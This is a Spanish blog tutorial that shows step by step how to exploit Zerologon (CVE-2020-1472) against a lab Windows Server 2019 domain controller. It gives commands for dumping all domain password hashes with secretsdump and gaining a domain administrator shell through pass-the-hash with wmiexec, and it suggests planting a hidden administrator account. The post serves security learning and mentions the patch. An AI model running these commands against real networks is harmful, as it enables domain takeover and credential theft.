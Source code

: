 ```yaml
---
layout: single
title: Zerologon en Windows Server 2019
excerpt: "En éste artículo atacaremos un Windows Server 2019 con el rol de Active Directory utilizando Zerologon para obtener los hashes de las contraseñas de todos los usuarios y máquinas del
dominio. Quiero recalcar que para realizar éste ataque no necesitamos
credenciales de ningún tipo ni estar unidos al dominio, lo que hace de ésta
vulnerabilidad una de las más críticas encontradas hasta la fecha. Teniendo el
hash de la contraseña del administrador del dominio utilizaremos la conocida
técnica de pass the hash para obtener acceso al sistema con la cuenta del
administrador."
date: 2021-03-13
classes: wide
header:
  teaser: /assets/images/Zerologon/zerologon.jpg
  teaser_home_page: true
categories:
  - Windows
tags:
  - Windows
  - Privilege Escalation
  - Pentesting
---
```


![](/assets/images/Zerologon/zerologon.jpg)

En éste artículo atacaremos un Windows Server 2019 con el rol de Active Directory utilizando Zerologon para obtener los hashes de las contraseñas de todos los usuarios y máquinas del dominio. Quiero recalcar que para realizar éste ataque no necesitamos credenciales de ningún tipo ni estar unidos al dominio, lo que hace de ésta vulnerabilidad una de las más críticas encontradas hasta la fecha. Teniendo el hash de la contraseña del administrador del dominio utilizaremos la conocida técnica de pass the hash para obtener acceso al sistema con la cuenta del administrador.

Utilizaremos una máquina virtual con Linux para la parte del atacante y otra
con Windows Server 2019 y Active Directory para la víctima.

![](/assets/images/Zerologon/windows-server.png)

En hackplayers explican en profundidad la vulnerabilidad.

[https://www.hackplayers.com/2020/09/zerologon-desatado-comprometer-DCs-facilmente.html](https://www.hackplayers.com/2020/09/zerologon-desatado-comprometer-DCs-facilmente.html)

Citando el artículo de hackplayers:

Zerologon se aprovecha de una vulnerabilidad en el servicio Netlogon, que se utiliza para diversas tareas relacionadas con la autenticación de usuarios y máquinas en controladores de dominio.

Netlogon utiliza un protocolo criptográfico basado en AES-CFB8 que define IVs fijos de 16 bytes de ceros en lugar de IVs aleatorios. Con esto, dada una clave aleatoria, hay una probabilidad de 1 entre 256 de que el cifrado AES de un bloque de todo ceros de como salida todo ceros. Dado que las cuentas de equipo no se bloquean después de intentos de inicio de sesión no válidos, simplemente podemos intentarlo varias veces hasta que obtengamos esa clave y la autenticación sea exitosa. La media esperada de intentos necesarios será de 256, lo que en la práctica sólo lleva unos tres segundos. Con este método, podemos iniciar sesión como cualquier ordenador del dominio. Esto incluye controladores de dominio de respaldo e incluso el propio controlador de dominio de destino. Conseguiremos cambiar la contraseña del equipo controlador de dominio a una cadena vacía (todo ceros) para obtener privilegios y poder obtener los hashese de todos los usuarios de Active Directory. Después de vulnerar el equipo podemos volver a cambiar la contraseña de la cuenta de equipo controlador de dominio para que todo vuelva a funcionar correctamente. Ahora el DC vuelve a comportarse normalmente y el atacante se ha convertido en administrador de dominio.

## Testeando si el servidor es vulnerable

La empresa Secura publicó una herramienta para identificar si una máquina es
vulnerable a Zerologon en un repositorio de github [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

Nos clonamos la herramienta con 
```bash
git clone https://github.com/SecuraBV/CVE-2020-1472.git
``` 
y la lanzamos contra nuestro controlador de dominio virtualizado, que se llama DC01 y tiene la ip
192.168.160.131

![](/assets/images/Zerologon/testing.png)

Y vemos que nos dice que es vulnerable a zerologon. Ésta vulnerabilidad afecta
a todas las versiones de Windows Server desde la 2008 R2, siempre que no
cuenten con las últimas actualizaciones instaladas. Microsoft sacó un parche en agosto, pero por lo visto había que editar el registro a mano para asegurarse de que el sistema quedaba completamente parcheado. En concreto la clave del registro es FullSecureChannelProtection y tiene que tener un valor de “1”. Se supone que en febrero tenía que salir la actualización que parcheaba definitivamente la vulnerabilidad, con lo cual deben de haber muchos servidores a dia de hoy que siguen siendo vulnerables.

El nombre del servidor y el del dominio se pueden averiguar rápidamente con
crackmapexec.

![](/assets/images/Zerologon/info.png)

## Explotando la vulnerabilidad y accediendo al sistema

Existen varias pruebas de concepto que explotan zerologon pero yo en este caso
voy a utilizar ésta: [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Igual que antes, nos clonamos el repositorio con 
```bash
git clone https://github.com/dirkjanm/CVE-2020-1472.git
```

![](/assets/images/Zerologon/clone.png)

Y ahora ejecutamos el script en python, pero antes vamos a crear un entorno
virtual con virtualenv para que no nos den problemas los scripts de impacket.

Para ello ejecutamos 
```bash
virtualenv zerologon
source zerologon/bin/activate
```

Ahora nos vamos al directorio opt y nos clonamos la suite de herramientas de
impacket

```bash
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
sudo pip install .
```

Ahora si, ejecutamos el exploit y vemos que funciona y nos dice Exploit
complete!

![](/assets/images/Zerologon/exploit.png)

Ahora ejecutamos el script de impacket secretsdump para obtener los hashes de
las contraseñas. Le pasamos un hash que corresponde a todo ceros para la cuenta
de máquina del controlador del dominio, por eso ponemos dom01.local/DC01$ con
un signo de dolar al final.

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'dom01.local/DC01$@192.168.160.131'
```

![](/assets/images/Zerologon/secrets.png)

Obtenemos los hashes de las cuentas de usuario, en este caso es solo la del
administrador, la del invitado y la de krbtgt porque no hay más usuarios, pero si huviera más nos los mostraría
también.

Para usar pass the hash podemos utilizar wmiexec y obtendremos una sesión de
cmd de la cuenta del administrador del dominio.

![](/assets/images/Zerologon/pth.png)

Vemos que al ejecutar whoami nos devuelve dom01\administrador. Estamos dentro
de la máquina con la cuenta del administrador del dominio. En éste punto
podemos hacer lo que queramos, por ejemplo crearnos un usuario administrador
oculto para que no se vea desde windows, activar el escritorio remoto editando
el registro con los comandos reg y conectarnos por RDP al servidor.

Además teniendo en cuenta que hay una GPO que se aplica a cualquier equipo al
unirlo al dominio que añade al administrador del dominio al grupo de
administradores local, podremos acceder a cualquier equipo de la red que esté
unido al dominio.

## Restableciendo la contraseña original

No nos olvidemos de que tenemos que restablecer la contraseña de la cuenta
de quipo para que todo funcione correctamente a nivel de active directory. Esto
es debido a que hemos cambiado la contraseña de la cuenta del equipo a nivel de
active directory, pero en la sam local sigue estando la original.

Para restablecerla usaremos de nuevo secretsdump pero esta vez con el hash del
administrador, lo que nos devolverá la *plain_password_hex* original para poder
restablecerla con el script restorepassword.py

```bash
secretsdump.py dom01.local/administrador@192.168.160.131 -target-ip 192.168.160.131 -hashes :57987b38d5ba54e02daa2d5d7579765b
```

Nos devuelve entre otras cosas la plain_password_hex de la cuenta de equipo en
la sam local.

```
DOM01\DC01$:plain_password_hex:fc3547348ef0ff05e8427168cd24be642dc407bf1d352de423fe0651b653ce853d7e37c957bd504444cd6898b301f56c00061671e25c11ddcf3890ef8b8bfcc41c8672fa708c4aa5981d8a1006288e7938887597eef55c630b37d5ddcd5635237f0b9be59944353f7ac163f60ad134c4f9506f768c49a33beda57a039e2a50d2d022c50a3d488998ee7f6cf2861c82bba15a67121c896fd479dc2688a6a2400b3a0c49ae1af1909672033929927e38e91fbe1a01e6d4ee15a381b6ccc42cdcc578fad4630161d429bc63fc7376e5debc403afba544390b42592408bb44c47e6da38b111d98d9cb9fadbfa89bb2936f53
```

Solo quedaría ejecutar el script para restablecer la contraseña local de la
cuenta de equipo.

```bash
sudo python3 restorepassword.py dom01.local/DC01@DC01 -target-ip 192.168.160.131 -hexpass fc3547348ef0ff05e8427168cd24be642dc407bf1d352de423fe0651b653ce853d7e37c957bd504444cd6898b301f56c00061671e25c11ddcf3890ef8b8bfcc41c8672fa708c4aa5981d8a1006288e7938887597eef55c630b37d5ddcd5635237f0b9be59944353f7ac163f60ad134c4f9506f768c49a33beda57a039e2a50d2d022c50a3d488998ee7f6cf2861c82bba15a67121c896fd479dc2688a6a2400b3a0c49ae1af1909672033929927e38e91fbe1a01e6d4ee15a381b6ccc42cdcc578fad4630161d429bc63fc7376e5debc403afba544390b42592408bb44c47e6da38b111d98d9cb9fadbfa89bb2936f53
```

![](/assets/images/Zerologon/restore.png)

Para comprobar si todo ha ido bien podemos ejecutar de nuevo nuestra primera
ejecución de secretsdump y esta vez debería dar error al no estar la contraseña
de la cuenta del equipo vacía.

![](/assets/images/Zerologon/error.png)

Y efectívamente, todo ha vuelto a la normalidad, pero seguimos teniendo acceso al equipo como administrador del dominio porque seguimos teniendo el hash de la contraseña de la cuenta del administrador para hacer pass the hash.

```bash
wmiexec.py -hashes :57987b38d5ba54e02daa2d5d7579765b Administrador@192.168.160.131
```

![](/assets/images/Zerologon/final.png)
